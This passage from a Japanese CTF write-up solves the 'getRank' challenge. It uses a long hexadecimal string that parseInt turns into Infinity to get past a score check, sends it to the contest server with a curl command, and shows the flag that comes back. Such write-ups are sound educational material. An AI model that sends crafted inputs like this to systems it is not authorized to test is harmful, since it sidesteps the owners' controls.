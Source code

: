 ソースコードを読んでいくと、ランキングで1位になればflagを取れることがわかります。
1位を取るには`10 ** 255`より大きい`score`であればよいのですが、

```ts
function chall(input: string): Res {
  if (input.length > 300) {
    return {
      rank: -1,
      message: 'Input too long',
    };
  }

  let score = parseInt(input);
  if (isNaN(score)) {
    return {
      rank: -1,
      message: 'Invalid score',
    };
  }
  if (score > 10 ** 255) {
    // hmm...your score is too big?
    // you need a handicap!
    for (let i = 0; i < 100; i++) {
      score = Math.floor(score / 10);
    }
  }

  return ranking(score);
}
```

- ユーザーの入力が300文字以内でなければならない
- 入力した数値が`10 ** 255`以上の場合、10 \*\* 100で除算される

ため、素直に入力しても1位を取れません。

ですが、[`parseInt`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/parseInt)について調べると、10進数だけでなく16進数もパースできることがわかります。
そのため、[`Infinity`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Infinity)になるような16進数の文字列を入力として与えることで回避できます。

```console
$ curl https://getrank.beginners.seccon.games/ -H 'Content-Type: application/json' -d '{ "input": "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff" }'
{"rank":1,"message":"ctf4b{15_my_5c0r3_700000_b1g?}"}
```

## clamre

以下のようなWebアプリケーションが与えられflagを取るものでした。
